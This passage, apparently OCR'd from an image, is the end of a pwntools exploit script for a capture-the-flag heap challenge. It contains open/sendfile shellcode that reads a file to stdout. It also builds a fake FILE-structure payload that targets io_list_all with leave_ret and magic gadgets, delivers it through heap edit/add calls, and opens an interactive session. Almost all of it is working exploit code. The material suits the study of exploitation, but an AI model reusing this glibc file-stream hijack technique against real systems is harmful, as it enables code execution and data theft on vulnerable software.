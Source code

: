 ```python
        /* call open() */
        push 2 /* 2 */
        pop rax
        syscall

        /* sendfile(out_fd=1, in_fd='rax', offset=0, count=0x50) */
        push 0x50
        pop r10
        push 1
        pop rdi
        xor edx, edx /* 0 */
        mov rsi, rax
        /* call sendfile() */
        push 40 /* 0x28 */
        pop rax
        syscall

        /*没有成功执行再跳转*/
        cmp rax,0
        jle child_process

    exit:
        /* Exit the process */
        mov rax, 60             /* syscall number for exit */
        xor rdi, rdi            /* status 0 */
        syscall

'''

edit(0, asm(shellcode))
edit(8, orw)

payload = p64(0) + p64(leave_ret) + p64(0) + p64(io_list_all - 0x20)
payload += p64(0) * 2 + p64(0) + p64(orw_addr)
payload += p64(0) * 4
payload += p64(0) * 3 + p64(lock)
payload += p64(0) * 2 + p64(fake_io_addr + 0xe0 + 0x40) + p64(0)
payload += p64(0) * 4
payload += p64(0) + p64(wfile)
payload += p64(0) * 0x1c + p64(fake_io_addr + 0xe0 + 0xe8 + 0x40)
payload += p64(0) * 0xd + p64(magic_gadget)
edit(5, payload)

add(10, 0x640)
add(11, 0x540)

p.sendline('5')

p.interactive()
```
